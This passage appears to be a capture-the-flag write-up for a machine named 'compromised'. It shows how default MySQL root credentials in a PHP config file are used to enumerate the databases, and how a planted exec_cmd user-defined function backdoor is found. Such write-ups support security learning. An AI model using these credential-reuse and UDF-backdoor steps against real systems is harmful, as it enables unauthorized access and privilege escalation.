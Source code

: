 ## Getting User

### From `www-data` to `mysql`

Looking at the files in `/var/www/html/shop` focusing on the config files, there is something interesting in `includes/config.inc.php` and I believe it occurs in other files as well, however the interesting thing is the default mysql credentials. 

```PHP
// Database
  define('DB_TYPE', 'mysql');
  define('DB_SERVER', 'localhost');
  define('DB_USERNAME', 'root');
  define('DB_PASSWORD', 'changethis');
  define('DB_DATABASE', 'ecom');
  define('DB_TABLE_PREFIX', 'lc_');
  define('DB_CONNECTION_CHARSET', 'utf8');
  define('DB_PERSISTENT_CONNECTIONS', 'false');
```
Trying out these credentials using `mysql -u root --password=changethis -e "show databases"`

```shell
www-data@compromised:/var/www/html/shop$ mysql -u root --password=changethis -e "show databases"
mysql: [Warning] Using a password on the command line interface can be insecure.
Database
information_schema
ecom
mysql
performance_schema
sys
```

Now I've stared at this part for quite a while and the creator was giving nudges, he told me to look for common ways the database could be backdoored. So I google-fu'ed my way to find [this](https://pure.security/simple-mysql-backdoor-using-user-defined-functions/) which is a way to insert a user defined function to be executed as the `mysql` user. After reading the blog, I enumerated the `mysql` database and found the `func` table and it has 1 entry

```sh
www-data@compromised:/var/www/html/shop$ mysql -u root --password=changethis -D mysql -e "Select * from func"
mysql: [Warning] Using a password on the command line interface can be insecure.
name    ret     dl      type
exec_cmd        0       libmysql.so     function
```

Trying to execute this function we are prompted that the function requires an argument of a string value

```sh
www-data@compromised:/var/www/html/shop/vqmod/xml$ mysql -u root --password=changethis -D mysql -e "SELECT exec_cmd()"
mysql: [Warning] Using a password on the command line interface can be insecure.
ERROR 1123 (HY000) at line 1: Can't initialize function 'exec_cmd'; exec_cmd(): Incorrect usage; usage: exec_cmd(string)
```
